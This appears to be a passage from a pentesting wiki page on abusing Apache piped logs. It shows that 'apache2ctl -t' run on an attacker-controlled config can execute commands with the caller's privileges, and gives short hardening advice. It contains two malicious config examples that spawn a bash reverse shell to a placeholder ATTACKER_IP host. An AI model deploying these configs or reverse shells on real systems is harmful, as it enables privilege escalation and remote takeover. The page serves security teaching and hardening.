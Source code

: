 Apache’s [piped logs](https://httpd.apache.org/docs/2.4/logs.html#piped) spawn external programs for `ErrorLog`/`CustomLog` entries beginning with `"|"`. Importantly, those helper processes are created during server startup and can also be spawned during configuration validation flows invoked by wrappers like `apachectl/apache2ctl -t` when they initialize logging.

That behavior means that if a privileged script runs `apache2ctl -t` against an attacker-controlled config (e.g., via `-f /path/to/attacker.conf`), any piped logger defined in that config may be executed with the caller’s privileges, even though only a "config test" is requested.

Minimal malicious configs that reliably spawn a command on `-t`:

```apache
# Variant 1: ErrorLog pipe
ServerRoot /dev/shm
PidFile /dev/shm/httpd.pid
ErrorLog "|/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"
LogLevel warn
```

```apache
# Variant 2: CustomLog pipe
ServerRoot /dev/shm
PidFile /dev/shm/httpd.pid
LogFormat "%h %l %u %t \"%r\" %>s %b" x
CustomLog "|/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" x
```

Hardening:
- Never pass user-influenced paths to `apache2ctl -t` (`-f`/`-d`). Test only root-owned, fixed configs.
- Prefer non-shell commands or absolute paths for logs; avoid piped loggers where possible in privileged contexts.

## References

- [Confusion Attacks on Apache (Orange Tsai)](https://blog.orange.tw/2024/08/confusion-attacks-en.html)
- [Apache 2.4 – Expressions (ap_expr) and file() function](https://httpd.apache.org/docs/2.4/expr.html)
- [Apache 2.4 – Custom Error Responses (ErrorDocument)](https://httpd.apache.org/docs/2.4/custom-error.html#errorpage)
- [Apache 2.4 – Log Files and Piped Logs](https://httpd.apache.org/docs/2.4/logs.html#piped)
- [HTB: Zero (0xdf) – .htaccess ErrorDocument LFI and apache2ctl -t piped-logs RCE](https://0xdf.gitlab.io/2025/08/12/htb-zero.html)

{{#include ../../banners/hacktricks-training.md}}


